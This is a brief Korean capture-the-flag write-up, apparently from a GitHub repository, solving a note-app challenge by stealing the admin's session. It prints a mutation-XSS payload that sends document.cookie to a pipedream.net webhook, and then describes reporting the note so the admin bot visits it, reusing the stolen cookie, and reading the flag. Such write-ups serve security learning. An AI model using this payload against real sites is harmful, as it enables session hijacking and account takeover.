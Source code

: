 세션 값을 받아오기 위해 Webhook을 사용하여 Payload를 작성해주었다.   

```html
<math><annotation-xml encoding="text/html"><style><img src=x onerror="javascript:location.href='https://enbjsc6lizc3g.x.pipedream.net/?d='+document.cookie"></style></annotation-xml></math>
```
    
노트 작성 후, Report 해주면 세션 값이 잘 받아지는 것을 볼 수 있다.   

### Admin Session 
<img src="images/2.PNG" width="700px">      
    
### Session Registration in Cookie    
<img src="images/3.PNG" width="700px">   
         
받은 세션 값을 쿠키에 추가해주고 `/note/flag`에 접속하면 FLAG 획득!!!

<img src="images/4.PNG" width="700px">   
